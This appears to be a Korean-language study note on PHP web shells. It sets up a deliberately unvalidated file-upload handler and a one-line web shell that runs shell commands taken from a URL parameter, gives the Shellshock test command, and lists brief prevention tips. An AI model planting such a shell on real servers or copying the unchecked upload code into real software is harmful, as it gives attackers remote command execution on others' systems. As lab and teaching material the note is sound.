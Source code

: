 ## web shell

해당 기법들은 개인용으로 참조하시기 바랍니다.

업로드 취약점을 통해 시스템에 명령을 내릴수 있는 코드를 칭하지만 내부적인 코드로 인해서 발생할수 있다.

해당 취약점이 발생되면 시스템에 원격으로 백도어를 심을수 있다.

대표적인 웹셀파일 r57.php 


# 시작하기


해당 파일시작하기

```
docker run --rm -p 80:80 -v <sourcePath>:/var/www/html php:7.2-apache
```


파일업로드 코드
```
<form enctype="multipart/form-data" action="fileAction.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="300000" />
    이 파일을 전송합니다: <input name="userfile" type="file" />
    <input type="submit" value="파일 전송" />
</form>
```


실제 파일의 업로드하는 코드
```
<?php

$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . basename($_FILES['userfile']['name']);

echo '<pre>';
if (move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile)) {
    echo "파일이 유효하고, 성공적으로 업로드 되었습니다.\n";
} else {
    print "파일 업로드 공격의 가능성이 있습니다!\n";
}

echo '자세한 디버깅 정보입니다:';
print_r($_FILES);

print "</pre>";

?>
```

취약점을 가진 php파일 업로드
```
<?php
echo shell_exec($_GET['cmd']);
?>
```


또한 root가아니여도 2014-6271(Shell Shock) 사태처럼 쉘취약점을 이용하여 root를 탈취 가능하다.

취약점 테스트 

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```


## 예방법

- 웹 서버의 파일 업로드 취약점 제거
- 파일 업로드 폴더의 실행 제한
- 웹 서버의 실행을 root로 하지말기


## 참조

## https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/